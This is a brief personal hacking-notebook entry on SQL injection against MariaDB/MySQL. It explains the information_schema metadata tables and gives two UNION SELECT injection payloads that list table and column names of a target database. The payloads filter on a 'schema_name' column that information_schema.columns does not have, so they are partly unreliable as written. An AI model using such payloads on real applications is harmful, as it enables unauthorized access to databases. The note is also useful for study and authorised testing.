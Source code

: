 # mariadb mysql SQLi information tables
`information_schema` is name of metadata database
`information_schema.schemata` is names of databases in `schema_name` column
`information_schema.columns` is names of tables and columns 
  - column `column_name` has names of columns
  - column `table_name`
  - column `schema_name` is database name
Example union injection
`... union select 1,2,group_concat(concat(table_name, ':', column_name)) from information_schema.columns where schema_name='interesting_db'`
`... union select 1,2,group_concat(table_name, ':', column_name) from information_schema.columns where schema_name='interesting_db'`

# References
- [20221003150987](/zet/20221003150987/README.md) mariadb mysql SQLi
- ~/kb/hacking/methodology/sqli-manual-mysql-payloads.md

Tags:
    #assorted
